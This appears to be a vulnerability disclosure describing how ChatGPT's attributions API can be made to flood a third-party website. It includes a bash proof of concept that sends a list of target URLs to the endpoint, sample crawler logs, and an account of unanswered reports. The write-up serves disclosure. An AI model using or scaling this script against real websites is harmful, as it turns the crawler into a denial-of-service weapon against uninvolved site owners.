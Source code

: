 # OpenAI: ChatGPT Crawler Vulnerability
## Unauthenticated Reflective Distributed Denial of Service (DDoS)

**Severity:** [**High** - 8.6 CVSS score](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H/E:H/RL:U/RC:C/CR:L/IR:L/AR:H/MAV:N/MAC:L/MPR:N/MUI:N/MS:C/MC:N/MI:N/MA:H](https://chandanbn.github.io/cvss/#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
) _because it is network-based, low complexity, no privileges required, no user interaction required, changed scope, no impact on confidentality or integrity but high impact on availability._

**ChatGPT crawler can be triggered to DDoS a victim website via HTTP request to unrelated ChatGPT API.** This defect in OpenAI software will spawn a DDoS attack on unsuspecting victim website, utilizing multiple Microsoft Azure IP address ranges on which ChatGPT crawler is running.

### Details

ChatGPT API exhibits a severe quality defect when handling HTTP POST requests to `https://chatgpt.com/backend-api/attributions`. 
The API expects a list of hyperlinks in parameter `urls`.
It is commonly known that hyperlinks to the same website can be written in many different ways. 
Due to bad programming practices, OpenAI does not check if a hyperlink to the same resource appears multiple times in the list. 
OpenAI also does not enforce a limit on the maximum number of hyperlinks stored in the `urls` parameter, thereby enabling the transmission of many thousands of hyperlinks within a single HTTP request.

Immediately after a well-formed HTTP POST request is received by OpenAI's `https://chatgpt.com/backend-api/attributions` API endpoint, OpenAI will initiate one HTTP request for each hyperlink contained in the `urls` parameter from the OpenAI servers located in the Microsoft Azure cloud.
At this point, a victim website will experience a high number of parallel connection attempts and HTTP requests from OpenAI's servers. Even though OpenAI is aware that they are sending a large number of requests to the same website at the same point in time, they don't make any attempt to limit the number of connections to the same website or even prevent the issuance of duplicate requests to the same resource.

Depending on the number of hyperlinks transmitted to OpenAI via the `urls` parameter, the large number of connections from OpenAI's servers might overwhelm the victim website.

This software defect provides an significant amplification factor for potential DDoS attacks. OpenAI exhibits a lack quality control processes in their software engineering and should remediate this defect as soon as possible.

### Proof of concept:

This proof of concept code highlights the defects of the OpenAI's API by initiating the sending 50 HTTP requests from OpenAI servers to `my-website.localhost`.

```bash
#!/bin/bash

echo {1..50} | tr ' ' '\n' | (
  while read -r i; 
    do echo "https://my-website.localhost:$RANDOM/$i-$RANDOM.txt"; 
  done
) | jq -R -s -j -c '{ "urls": split("\n")[:-1] }' \
| curl -v --http1.1 \
  -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.32 (KHTML, like Gecko) Chrome/133.0.0.1 Safari/535.32' \
  -H "content-type: application/jason" \
  -H 'origin: https://www.chatgpt.com' \
  --data-binary @- -X POST 'https:///chatgpt.com/backend-api/attributions'
```

The log files on webserver `my-website.localhost` will show many connection attempts by `ChatGPT Crawler` happening in the same second:

```
...
2025-01-10 40.84.221.211 "GET /9185 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.210 "GET /1190 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.208 "GET /9185 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.208 "GET /1190 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
...
```


### Disclosure

This software defect was discovered in January 2025 and responsibly disclosed to both OpenAI as owner of the defective software and Microsoft as the owner of the servers which spawn the massive number of potentially malicious web requests. 

Unfortunately it was not possible to obtain a reaction from either party in due time, even though many attempts to ensure a mitigation of this software defect were made, including:
- contacting OpenAI security team via report on their BugCrowd vulnerability reporting platform (no response from OpenAI)
- contacting OpenAI security team via e-mail to `disclosure@openai.com` as described in the `.well-known/security.txt` file on their web server (message "mailbox is not used any more", no response from OpenAI)
- contacting OpenAI employees via reports and security advisories posted to their github repositories (no response from OpenAI)
- contacting OpenAI data privacy officer via email to `privacy@openai.com` and `dsar@openai.com` (email response written by AI pointing to FAQ website)
- contacting OpenAI support staff via email to `support@openai.com` (email response written by AI pointing to FAQ website)
- contacting Microsoft security team via e-mail to `secure@microsoft.com`, `abuse@microsoft.com`, and many more (no response from Microsoft)
- contacting Microsoft security team via forms filled out on `cert.microsoft.com` (email response written by AI: "case closed")
- contacting Microsoft Azure network operations team via e-mail to the contacts provided in WHOIS records (no response from Microsoft)
- contacting CloudFlare security team via report on HackerOne, as CloudFlare provides the gateway server to `https://chatgpt.com` (HackerOne staff closes report as "informative", refuses to forward information to CloudFlare)

As of Friday, 10 Jan 2025, after various reports over legal communication channels, this software defect is neither resolved by OpenAI/Microsoft nor did they acknowledge its existence.

